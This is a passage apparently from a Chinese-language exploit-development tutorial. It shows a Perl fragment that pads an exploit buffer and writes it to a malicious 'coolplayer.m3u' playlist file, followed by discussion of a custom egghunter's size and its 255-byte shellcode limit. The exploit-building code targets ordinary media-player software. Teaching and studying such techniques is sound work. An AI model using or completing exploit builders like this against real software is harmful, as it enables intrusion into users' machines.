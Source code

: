 ```perl
my $fill = "\x43" x ($buffsize - (length($sploit))); # fill remainder of buffer for size consistency
my $buffer = $sploit.$fill; # build final buffer

# write the exploit buffer to file
my $file = "coolplayer.m3u";
open(FILE, ">$file");
print FILE $buffer;
close(FILE);
print "Exploit file [" . $file . "] created\n";
print "Buffer size: " . length($buffer) . "\n";
```

如果我不是第一个想到这种方法的人，我不会感到惊讶，尽管我找不到任何其他参考资料。它确实有一些缺点， 在 50 字节时，它比 NtDisplayString Egghunter 大 18 字节。 在当前状态下，它为偏移大小标签提供一个字节，这意味着 shellcode 被限制为 255 个字节或更小。这可以进行调整，尽管它可能会增加 Egghunter 代码的大小。 无论如何，至少它可能会让你想到其他方法来实现 Egghunters，甚至可能改进这个方法。
